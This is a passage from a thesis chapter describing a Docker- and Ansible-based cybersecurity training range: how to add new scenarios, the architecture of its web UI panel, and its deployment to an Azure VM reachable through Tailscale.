    
\includegraphics[width=12cm]{figures/adminbot.png}
    \caption{\textit{AdminBot} Interface.}
    \label{fig:admin_bot}
\end{figure}

\section{Scenario Extensibility} \label{sec:validation_scenario_extensibility}

This topic intends to address the scenario extensibility theme. This topic is essential because it ensures the project's continuity regarding future updates. Scenario extensibility is closely related to what was presented in Section \ref{sec:custom_scenario_variables} (p. \pageref{sec:custom_scenario_variables}). For our framework to support new scenarios, developers must understand the project's inner workings. This encompasses variable declarations for each scenario, namely DNS configurations for new domains, port forwarding issues, entry point setup, and representation of custom machines. Given the knowledge we have so far, adding new scenarios to our configuration should be relatively straightforward. 

A new folder inside the \texttt{scenarios} folder should be created for each scenario. Then, a file named \textit{challenge\_vars.yml} should store the custom variables of the scenario. The rest of the folder structure is dedicated to scenario's files. Every configuration should be specified on the \textit{challenge\_vars.yml} file.

Firstly, the DNS configuration, where information on each domain should be specified. This includes selecting the machines to which internal and external DNS requests should be mapped. Afterward, we should determine the Docker images that will be linked to the custom Docker containers of the scenario. This includes the Docker images' name, the path to reach the \textit{Dockerfile}, and, optionally, possible arguments to the Docker image construction process. While explaining how our framework works, we always followed the logic of having a domain associated with the vulnerable machine because it is easier for the trainee to reach the vulnerable machine by a domain than by an IP address. While expanding the project's scenarios, we follow the same line of logic. As such, adding a reverse proxy to redirect each request to the appropriate Docker container is mandatory. 

With this in mind, we must also include a Docker image configuration for the proxy. The next step is to configure the Docker containers of our custom machines by specifying their name, the Docker image they are associated with, the groups they belong to, the Docker networks and assigned IP address, possible Docker volumes, information on where to find the DNS server, environment variables, and optional variables. The mandatory Docker containers include, again, the reverse proxy and the DNS server. An important note is that the reverse proxy configuration should consist of a set of variables later used in the NGINX configuration, as explained in Section \ref{sec:ansible_reverse_proxies_role} (p. \pageref{sec:ansible_reverse_proxies_role}). This includes specifying the domains to be mapped by the reverse proxy and the machines and ports the requests should be redirected. Notice that this setup allows load balancing configurations as several machines can be specified to the same domain. 

The next topic concerns port forwarding configurations on the edge router. The goal of this configuration is to redirect requests from the attacker's machine located in the external network to the vulnerable service. But since we have a reverse proxy in between, requests are first redirected to it, which then forwards the packets to the final vulnerable service. This configuration allows us to configure the edge router's inbound port and configure the target machine and port to which packets should be redirected. In situations where the target machine is the reverse proxy, its destination port should be 443 (HTTPS), as specified in Section \ref{sec:ansible_reverse_proxies_role} (p. \pageref{sec:ansible_reverse_proxies_role}). In scenarios like Log4j, the connection between the attacker machine and the vulnerable service is not handled by a reverse proxy, meaning we can map packets directly to the vulnerable service.

Lastly, we need to pay attention to the entry point scripting section. For configurations in Docker containers, we need to include a folder with a set of Jinja2 templating files that support the inclusion of variables specified in the YAML files. There is no need to use Jinja2 templates for configurations in the local machine. With each of these configurations, an \textit{entrypoint.sh.j2} or an \textit{entrypoint.sh} file should be created, as it will be the script that Ansible's actions will trigger. Concerning the setup of the attacker machine, including the setup of the previously mentioned root CA, is needed so that the digital certificates are considered trusted across scenarios.

Regarding Windows-based scenarios, the only change is creating a hypervisor container that will host the Windows VM. To configure and provision the Windows VM, the developer may create a new set of Ansible playbooks that handle the configuration according to his will.

Having these considerations in mind and following the logic of the already presented scenarios, it is simple to expand the project to new scenarios. 

% Python Script
    % DiceCTF GitHub format
    % Our format (talk about entrypoints)
    % Scenarios that require Admin Bot

\section{User Interface Panel} \label{sec:validation_ui}

For users that like to handle the scenario launching with the touch of a button, we created a user interface that presents us with a listing of every scenario. Fig. \ref{fig:ui_architecture_diagram} (p. \pageref{fig:ui_architecture_diagram}) presents us with a basic overview of the UI panel's architecture.

\begin{figure}[H]
    
\includegraphics[width=10cm]{figures/ui_diagram.pdf}
    \caption{User Interface Panel Architecture Diagram.}
    \label{fig:ui_architecture_diagram}
\end{figure}

To achieve this, we created a \textit{docker-compose.yml} file responsible for launching containers for the front-end, back-end, and database supporting the UI platform. The front-end was developed in \textit{ReactJS}\footnote{\url{https://react.dev/}} using the Material UI\footnote{\url{https://mui.com/material-ui/getting-started/overview/}} component library. The back-end was developed in NodeJS\footnote{\url{https://nodejs.org/en}} and the database in MongoDB\footnote{\url{https://www.mongodb.com/}}. In the middle of the diagram, we can see two distinct sections, the ``\textit{Named FIFOs}'' and the ``\textit{Populate MongoDB}''. The latter concerns the same Python script mentioned in Section \ref{sec:validation_imported_scenarios} (p. \pageref{sec:validation_imported_scenarios}), responsible for importing scenarios from the DiceCTF competition, as well as the custom scenarios from Section \ref{sec:validation_custom_scenarios} (p. \pageref{sec:validation_custom_scenarios}).
Along with this functionality, this script also populates the MongoDB database with the information of every scenario. The ``\textit{Named FIFOs}'' is composed of two named FIFOs that are extremely important for the correct functioning of the project. The goal of the UI panel, is to launch scenarios with the click of a button. This means when a user clicks a button, an HTTP request is sent from the front-end container to the back-end container, which has to launch the scenario somehow. As the back-end itself runs inside a container, there is no direct way of running a shell command sent to the back-end service in the machine hosting the containers. To overcome this, we created these FIFOs, which are bind mounted from the host machine's file system to the back-end container's file system. So, every time the back-end container sends a command to a FIFO on the host machine, there is a script running and waiting for an input which will be the shell command used for launching the scenario. As this command is read in the FIFO, it is then executed in the host machine. So, this part of the problem was solved. The next issue concerns how the user could get feedback on the execution of the scenario. As this process usually takes a while, having a loading spinner with a percentage of the scenario's progress would probably be boring.
The way we approached this was to have a \textit{WebSocket} bound to the local machine that would echo the output of the scenario's execution command. So, whenever we connect to this \textit{WebSocket}, we receive real-time feedback on the scenario's execution process. The way to achieve this was using a program called \textit{websocketd}\footnote{\url{https://github.com/joewalnes/websocketd}}. Then, we have another named FIFO that also waits for incoming data. The \textit{cancel\_mypipe} FIFO waits for commands that cancel the current scenario execution, essentially killing the current \textit{websocketd} process and launching a new one, along with a new \textit{WebSocket}.

\begin{figure}[H]
    
\includegraphics[width=13cm]{figures/ui_dashboard.png}
    \caption{User Interface Panel.}
    \label{fig:ui_panel}
\end{figure}

Fig. \ref{fig:ui_panel} (p. \pageref{fig:ui_panel}) presents the front-end design. The UI panel consists of two primary tabs, one for all the available scenarios and one for the solved scenarios, meaning the already completed ones. The design of each page is similar. We can observe two side-bar filters for the categories of the challenges and their difficulty. 

\begin{figure}[H]
    
\includegraphics[width=13cm]{figures/ui_example_scenario.png}
    \caption{User Interface Log4j Scenario.}
    \label{fig:ui_log4j_scenario}
\end{figure}

In Fig. \ref{fig:ui_log4j_scenario} (p. \pageref{fig:ui_log4j_scenario}), we can see the details associated with a scenario, namely the name, author, category, difficulty, a short description, and the domains of the services to be targeted within the scenario. This modal also consists of a bottom panel where the front-end connects to the above-mentioned \textit{WebSocket} and constantly receives real-time data on the scenario's execution steps provided by Ansible. 

% Frontend
% Backend
% Named FIFO

\section{Cloud Deployment} \label{sec:validation_cloud_deployment}

One of the project's key aspects was the ability to run complex scenarios with the effort of a click or a command in the local machine. A UI panel was created to broaden the accessibility to users that want to keep it simple. However, the project focused on supporting remote deployments, namely, cloud deployments.

During the development, we used Microsoft Azure as our cloud provider. We created a \textit{Standard D2ads v5} and a \textit{Standard E2bs v5} Azure Virtual Machine featured with 2 vCPUs, 8GB and 16GB of RAM, respectively, and 128GB disk space due to the amount of memory the current cyber ranges take. The OS used was Ubuntu 22.04. Notice the selected VMs need to have KVM virtualization enabled; otherwise, the setup of Windows-based scenarios will not work.

For every scenario deployment, the last steps include the installation of Tailscale in the attacker machine (\textit{attackermachine}) and/or in the hypervisor container (\textit{kvmcontainer}). After the installation of this tool, we add these machines to our Tailscale network as ephemeral nodes with a previously generated authentication key that one can use to sign in to the network. Even the Azure VM, where we later deployed the project, had Tailscale installed and joined the network using the same authentication key. With such a configuration set, accessing every machine belonging to our Tailscale mesh network was easy using \textit{MagicDNS}. Through our host machine, which was also part of the Tailscale network, we can access the attacker machine using the domain \texttt{attackermachine.rhino-duck.ts.net}, the hypervisor container using \texttt{kvmcontainer.rhino-duck.ts.net}, and the remote machine using \texttt{local.rhino-duck.\\ts.net}. Notice \texttt{rhino-duck.ts.net} is Tailscale's network domain. With our remote deployment set in place, we can use these domains to access every remote container without needing any port forwarding or firewall configurations set. This means we can access our attacker machine using VNC, Remote Desktop into our Windows VM, and even access our UI panel hosted in the remote machine. Notice that on every new scenario execution, either via the UI panel or the command line, we first attempt to remove possible attacker or hypervisor machines from the Tailscale network so that when new scenarios are deployed and other machines attempt to join the Tailscale network, there is no collision between domain names. Doing so ensures we always target the correct machines when accessing any of the domains mentioned above.

To enable the remote setup of Azure's VM, a Bash script was created. It configures the target machine with the necessary packages and files to run Ansible, uses a GitHub deployment key associated with the project's repository to pull data from it, and runs an Ansible bootstrap playbook in the target machine. At last, the UI panel is launched. All the configuration and provisioning tasks of the remote machine are done using a pre-configured SSH key generated through Azure. The commands and file copy operations are performed using SSH and \textit{Rsync}, a command line tool that looks to replace the already deprecated \textit{Secure Copy Protocol (SCP)}.

% Tailscale (kvmcontainer, attackermachine, local | rhino-duck.ts.net)
% Microsoft Azure

\section{Summary} \label{sec:validation_summary}

This chapter presented the results from the validation process of the developed project solution. Starting from Section \ref{sec:validation_iac_tools_in_cr_construction} (p. \pageref{sec:validation_iac_tools_in_cr_construction}), we provide a brief insight into the Infrastructure-as-Code tools used across the project and a short overview of the design decisions taken across the project. In Section \ref{sec:validation_architecture} (p. \pageref{sec:validation_architecture}), we detail the logic followed using Ansible groups, roles, and variables crucial to understanding the project's inner workings. Furthermore, Section \ref{sec:validation_custom_scenarios} (p. \pageref{sec:validation_custom_scenarios}) explains the construction process of the Log4j, Ransomware, and Active Directory scenarios, the problems overcame, and possible solutions to get the secret flag of each scenario. Section \ref{sec:validation_imported_scenarios} (p. \pageref{sec:validation_imported_scenarios}) details the process of importing scenarios from the DiceCTF competition. With this, we significantly expanded the number of scenarios available in the project. Moreover, Section \ref{sec:validation_scenario_extensibility} (p. \pageref{sec:validation_scenario_extensibility}) presents insights on creating new scenarios and including them in our framework. Section \ref{sec:validation_ui} (p. \pageref{sec:validation_ui}) explains the architecture behind the UI panel used to manage the entire framework and, lastly, Section \ref{sec:validation_cloud_deployment} (p. \pageref{sec:validation_cloud_deployment}) explains the cloud deployment process to carry out the scenarios to a remote machine accessible through the Internet.

The validation process was helpful when identifying possibilities for improving the implemented solution. We developed a framework capable of being run on a local or remote machine, featuring a straightforward user interface, and letting the trainees improve their skills in several areas across the cybersecurity field.